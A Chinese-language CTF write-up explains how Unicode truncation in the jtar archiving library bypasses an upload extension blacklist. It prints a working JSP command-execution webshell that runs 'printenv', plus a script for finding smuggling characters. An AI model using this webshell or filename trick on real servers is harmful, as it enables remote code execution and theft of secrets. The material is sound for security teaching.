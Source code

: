 # d3jtar-WP-CH

本题网站文件备份系统的 view 路由下配置了不安全的 jsp 解析，显然只要成功上传 jsp 文件即可 RCE。然而后端对上传文件的名称做了较为严格的校验，理想情况下选手无法通过其他手段绕过 secureUpload 校验来上传 jsp 文件。

那么结合本题标题可知，解题的关键在于工具类 Backup 所使用的 jtar 打包库。在使用 jtar 的 TarOutputStream 打包文件时，它会把文件名中的 unicode 强制转化为 ascii 码，从而发生字符截断。利用这一点，我们可以将后缀带有特定 unicode 字符的文件上传至靶机，绕过后缀黑名单检查，通过备份与恢复功能将上传的文件转变为 jsp 后缀的文件并放回 jsp 可解析目录，最终 RCE 获取 flag。

示例文件如下：

文件名：payload.陪 sp --> payload.jsp

```java
<%@ page import="java.io.*" %>
<%
    String cmd = "printenv";
    String output = "";

    try {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            output += line + "<br>";
        }
    } catch (Exception e) {
        output = "Error executing command: " + e.getMessage();
    }
%>

<html>
<head><title>Command Output</title></head>
<body>
<h2>Executed Command: <code><%= cmd %></code></h2>
<pre><%= output %></pre>
</body>
</html>
```

具体原理可查看 jtar 源码（[https://github.com/kamranzafar/jtar](https://github.com/kamranzafar/jtar)）中 TarHeader 的 getNameBytes 方法如下，使用 `(byte)` 强制转换 unicode 文件名称时会导致字符截断，打包后文件名称发生改变。

![](static/NErIbQyl6oxOtVxqOaNcn66Rneh.png)

解题所使用的 unicode 字符可以参考以下脚本获取，只要可以转换为正常后缀的 ASCII 字符即可，例如 `payload.멪ⅳば` 也是相同效果。

```python
import unicodedata

def reverse_search(byte_value):
    low_byte = byte_value & 0xFF
    candidates = []

    for high in range(0x00, 0xFF + 1):
        code_point = (high << 8) | low_byte
        try:
            char = chr(code_point)
            name = unicodedata.name(char)
            candidates.append((f"U+{code_point:04X}", char, name))
        except ValueError:
            continue
    return candidates

ascii_character = "j"  # "s","p"
byte_val = ord(ascii_character)
print(f"Possible original characters ({byte_val} → 0x{byte_val & 0xFF:02X}）:")
results = reverse_search(byte_val)
for cp, char, name in results:
    print(f"{cp}: {char} - {name}")
```

另外，其实选手如果有心注意的话，在 jtar 的 github 项目里有一条 23 年的 pr（最上方），是关于中文编码错误的修改（但并未被合并），可以作为一条潜在的 hint，提醒选手关注 jtar 的编码问题。😉
